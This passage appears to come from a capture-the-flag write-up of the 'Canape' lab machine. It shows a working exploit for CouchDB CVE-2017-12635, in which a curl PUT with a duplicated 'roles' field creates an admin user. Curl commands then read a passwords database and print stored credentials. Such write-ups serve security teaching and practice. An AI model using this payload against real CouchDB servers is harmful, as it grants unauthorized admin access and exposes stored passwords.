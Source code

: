-   https://justi.cz/security/couchdb-rce-npm.md
-   https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635

So, with CVE-2017-12635, to add an admin user, we just need to use an
HTTP PUT:



    www-data@canape:/var/www/git$ curl -X PUT -d '{"type":"user","name":"0xdf","roles":["_admin"],"roles":[],"password":"df"}' localhost:5984/_users/org.couchdb.user:0xdf -H "Content-Type:application/json"
    {"ok":true,"id":"org.couchdb.user:0xdf","rev":"1-72477c12e81d377e933683b8b73f9a86"}



Because we have a "roles" object in there twice, the CouchDB Javascript
validation will only see the second one (empty), but then Erlang json
parser will keep both, and let us be an admin.

#### Enumeration as admin

Now, we can use the creds for the added admin user to read the rest of
the db:



    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords
    {"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}

    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/_all_docs
    {"total_rows":4,"offset":0,"rows":[
    {"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
    {"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
    {"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
    {"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
    ]}

    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
    {"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}

    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
    {"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}

    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
    {"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
